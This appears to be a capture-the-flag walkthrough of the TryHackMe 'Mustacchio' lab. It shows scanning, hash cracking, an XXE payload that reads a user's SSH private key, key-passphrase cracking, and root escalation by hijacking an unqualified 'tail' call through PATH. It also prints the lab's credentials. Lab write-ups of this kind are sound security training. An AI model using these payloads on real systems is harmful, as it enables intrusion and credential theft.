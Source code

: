 # Mustacchio

**Room Link:** [https://tryhackme.com/room/mustacchio](https://tryhackme.com/room/mustacchio)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (181).png" alt=""><figcaption></figcaption></figure>





### Scan all ports

port 8765 found which is running nginx

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (183).png" alt=""><figcaption></figcaption></figure>





### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (182).png" alt=""><figcaption></figcaption></figure>

There is a users.bak file in the custom folder

<figure><img src="../../.gitbook/assets/image (185).png" alt=""><figcaption></figcaption></figure>

It's a bit messy but it appears to be a username and password hash. I put it through crackstation

<figure><img src="../../.gitbook/assets/image (186).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (187).png" alt=""><figcaption></figcaption></figure>





### TCP/8765 - HTTP

```
gobuster dir -u http://$VICTIM:8765 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (184).png" alt=""><figcaption></figcaption></figure>





**Kali**

```
Username: admin
Password: bulldog19
```



<figure><img src="../../.gitbook/assets/image (189).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (188).png" alt=""><figcaption></figcaption></figure>

### Initial Shell

In the source code there's two interesting places to look

<figure><img src="../../.gitbook/assets/image (190).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (191).png" alt=""><figcaption></figcaption></figure>

Seems like a waste but we now know the format how to submit something on the site

<figure><img src="../../.gitbook/assets/image (192).png" alt=""><figcaption></figcaption></figure>

**Input**

```
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could\u2019ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could\u2019ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```

<figure><img src="../../.gitbook/assets/image (193).png" alt=""><figcaption></figcaption></figure>

**Input**

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///home/barry/.ssh/id_rsa'>]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```

<figure><img src="../../.gitbook/assets/image (194).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (195).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (196).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
python /opt/john/ssh2john.py id_rsa > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
chmod 600 id_rsa
ssh -v -i id_rsa barry@$VICTIM
Password: urieljames
```

<figure><img src="../../.gitbook/assets/image (197).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

We find a program owned by root in joes folder. When we run strings on it we can see tail command is being ran but it is not using full path so we can exploit this.

**Victim**

```
cd /home/joe
ls -lah
strings live_log
```

<figure><img src="../../.gitbook/assets/image (198).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /tmp

cat > tail << EOF
> #!/bin/bash
> /bin/bash -i
> EOF
chmod +x tail

export PATH=/tmp/:$PATH
/home/joe/live_log 
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>



















